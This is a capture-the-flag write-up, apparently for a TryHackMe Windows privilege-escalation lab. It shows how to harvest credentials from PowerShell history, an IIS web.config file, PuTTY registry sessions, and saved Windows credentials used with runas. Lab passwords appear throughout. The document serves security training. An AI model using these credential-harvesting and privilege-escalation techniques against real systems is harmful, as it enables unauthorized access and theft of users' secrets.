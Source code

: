 #### A password for the julia.jones user has been left on the Powershell history. What is the password?

cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z


#### A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?

                <add connectionStringName="LocalSqlServer" maxEventDetailsLength="1073741823" buffer="false" bufferMode="Notification" name="SqlWebEventProvider" type="System.Web.Management.SqlWebEventProvider,System.Web,Version=4.0.0.0,Culture=neutral,PublicKeyToken=b03f5f7f11d50a3a" />
                    <add connectionStringName="LocalSqlServer" name="AspNetSqlPersonalizationProvider" type="System.Web.UI.WebControls.WebParts.SqlPersonalizationProvider, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" />
    <connectionStrings>
        <add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB" />
    </connectionStrings>

    

#### There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop.

PS C:\Users\thm-unpriv> cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=WPRIVESC1\mike.katz
    Type: Domain Password
    User: WPRIVESC1\mike.katz

    PS C:\Users\thm-unpriv> runas /savecred /user:mike.katz cmd.exe
Attempting to start cmd.exe as user "WPRIVESC1\mike.katz" ...
PS C:\Users\thm-unpriv> whoami
wprivesc1\thm-unpriv
PS C:\Users\thm-unpriv>


C:\Windows\system32>whoami
wprivesc1\mike.katz


THM{WHAT_IS_MY_PASSWORD}


#### Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?


PS C:\Users\thm-unpriv> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\My%20ssh%20server
    ProxyExcludeList    REG_SZ
    ProxyDNS    REG_DWORD    0x1
    ProxyLocalhost    REG_DWORD    0x0
    ProxyMethod    REG_DWORD    0x0
    ProxyHost    REG_SZ    proxy
    ProxyPort    REG_DWORD    0x50
    ProxyUsername    REG_SZ    thom.smith
    ProxyPassword    REG_SZ    CoolPass2021
    ProxyTelnetCommand    REG_SZ    connect %host %port\n
    ProxyLogToTerm    REG_DWORD    0x1
